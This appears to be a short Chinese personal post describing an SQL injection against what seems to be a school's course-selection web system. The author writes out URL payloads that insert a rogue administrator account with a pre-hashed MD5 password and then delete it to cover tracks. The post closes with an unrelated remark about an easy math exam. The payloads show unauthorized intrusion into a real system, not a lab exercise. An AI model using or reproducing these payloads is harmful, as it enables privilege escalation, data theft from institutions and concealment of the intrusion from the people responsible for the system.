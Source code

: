 怎样脱裤选课系统？写POST一个一个扒？还是SQL注入？SQL不但方便，而且抓得全。

特别登陆界面因为出现过一次问题，被MD5了，普通登录界面没有MD5，但是注进去都是SQL语法错误。于是决定改数据库里的管理员。

先用自己的账号登入，点开一个aspx，发现传过去的参数是查询指令：

```
http://xxx/xx.aspx?xxx=xx
```

问号后面的就是查询指令。然后试出来管理员库叫admin，注入之：

```SQL
http://xxx/xx.aspx?xxx='; insert into admin(admin_name, admin_pwd) VALUES ('xxx', 'xxx')--
```

注意，注进去的value要手动md5一下，因为服务器正常地添加管理员会md5，登陆界面也会md5。

完事之后清理现场：

```SQL
http://xxx/xx.aspx?xxx='; delete from admin where admin_name = 'xxx'--
```

--------------------------------------------------------------

今天的数学实在水。放水放得飞流直下三千尺。
